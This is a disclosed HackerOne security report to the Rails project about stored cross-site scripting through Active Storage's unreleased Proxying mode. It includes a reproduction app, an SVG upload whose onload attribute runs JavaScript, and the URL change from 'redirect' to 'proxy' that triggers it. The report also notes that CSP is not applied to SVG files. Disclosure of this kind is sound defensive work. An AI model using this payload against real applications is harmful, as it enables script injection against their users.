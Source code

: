 # XSS by file (Active Storage `Proxying`)

## Report Details
- **Report ID**: 949513
- **URL**: https://hackerone.com/reports/949513
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-08-02T05:13:31.245Z
- **Disclosed**: 2020-09-01T22:51:37.236Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
Hello,
I've seen similar issues with #407319 and #429868 occur with Active Storage's new File serving strategies `Proxying`.

Commit is https://github.com/rails/rails/commit/dfb5a82b259e134eac89784ac4ace0c44d1b4aee.

```ruby
# https://github.com/rails/rails/blob/master/activestorage/app/controllers/concerns/active_storage/set_headers.rb#L9
      response.headers["Content-Disposition"] = ActionDispatch::Http::ContentDisposition.format \
        disposition: params[:disposition] || "inline", filename: blob.filename.
```

```ruby
# https://github.com/rails/rails/blob/master/activestorage/app/controllers/active_storage/blobs/proxy_controller.rb

# Proxy files through application. This avoids having a redirect and makes files easier to cache.
class ActiveStorage::Blobs::ProxyController < ActiveStorage::BaseController
  include ActiveStorage::SetBlob
  include ActiveStorage::SetHeaders

  def show
    http_cache_forever public: true do
      set_content_headers_from @blob
      stream @blob
    end
  end
end  
```

Since `inline` can be set regardless of the file type, XSS is possible when a malicious file is uploaded.

### Proof of concept

#### 1. Preparing the server

```
$ rails new proxy_xss --skip-bundle --skip-webpack-install
$ cd proxy_xss/
```

Edit Gemfile.

```ruby
source 'https://rubygems.org'
git_source(:github) { |repo| "https://github.com/#{repo}.git" }

ruby '2.7.1'

gem 'rails', github: "rails/rails", branch: "master"
gem 'sqlite3', '~> 1.4'
gem 'puma', '~> 4.1'

gem 'bootsnap', '>= 1.4.2', require: false

group :development do
  gem 'listen', '~> 3.2'
end
```

```
$ bundle install
...

$ head Gemfile.lock
GIT
  remote: https://github.com/rails/rails.git
  revision: 11f54e12b992f6c8d29fd9bedd89ac438a928a2f
  branch: master
  specs:
    actioncable (6.1.0.alpha)
      actionpack (= 6.1.0.alpha)
      activesupport (= 6.1.0.alpha)
      nio4r (~> 2.0)
      websocket-driver (>= 0.6.1)
```

```
$ bundle exec rails active_storage:install
$ bundle exec rails g resource user name:text
$ bundle exec rails db:migrate
```

Edit app files.

```ruby
# controllers/users_controller.rb
class UsersController < ApplicationController

  def new
    @user = User.new
  end

  def create
    user = User.create!(user_params)
    redirect_to "/users/#{user.id}"
  end

  def show
    @user = User.find(params[:id])
  end

  private
    def user_params
      params.require(:user).permit(:name, :image)
    end
end
```

```ruby
# models/user.rb
class User < ApplicationRecord
  has_one_attached :image
end
```

```erb
# views/layouts/application.html.erb
<!DOCTYPE html>
<html>
  <head>
    <title>ProxyXss</title>
    <%= csrf_meta_tags %>
    <%= csp_meta_tag %>
  </head>

  <body>
    <%= yield %>
  </body>
</html>
```

```erb
# views/user/new.html.erb
<%= form_with model: @user, local: true, :url => {:action => :create}  do |form| %>
  <%= form.text_area :name %><br>
  <%= form.file_field :image %><br>
  <%= form.submit %>
<% end %>
```

```erb
# views/user/show.html.erb
<% if @user.image.attached? %>
  <%= image_tag @user.image %>
<% end %>
```

#### 2. Obtain url

Start server.

```
rails s
```

Open `http://localhost:3000/users/new` in your browser, Upload the following file as `alert.svg`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<svg xmlns='http://www.w3.org/2000/svg' width="200px" height="200px" onload="javascript:alert(location)">
</svg>
```

After that, use the developer tool to obtain the redirected URL.

```
http://localhost:3000/rails/active_storage/blobs/redirect/eyJfcmFpbHMiOnsibWVzc2FnZSI6IkJBaHBCZz09IiwiZXhwIjpudWxsLCJwdXIiOiJibG9iX2lkIn19--ed4ee8109834f4dd747bfb68d7a7ddc2e43e8f69/alert.svg
```

#### 3. XSS

Rewrite `redirect` in URL to `proxy` and alert will appear when opening URL directly in browser.

```
http://localhost:3000/rails/active_storage/blobs/proxy/eyJfcmFpbHMiOnsibWVzc2FnZSI6IkJBaHBCZz09IiwiZXhwIjpudWxsLCJwdXIiOiJibG9iX2lkIn19--ed4ee8109834f4dd747bfb68d7a7ddc2e43e8f69/alert.svg
```

{F933309}

## Impact

XSS is possible if attacker can upload files using Active storage.
This commit has not been released yet, so it only affects services using Rails on the master branch.
(Maybe `Hey` etc. https://gist.github.com/dhh/782fb925b57450da28c1e15656779556#file-gemfile-L3)

In addition, since the csp header is not output for the svg file (https://github.com/rails/rails/blob/master/actionpack/lib/action_dispatch/http/content_security_policy.rb#L20), it can be avoided even if csp is set.

## Attachments
- __________2020-08-02_13.56.07.png
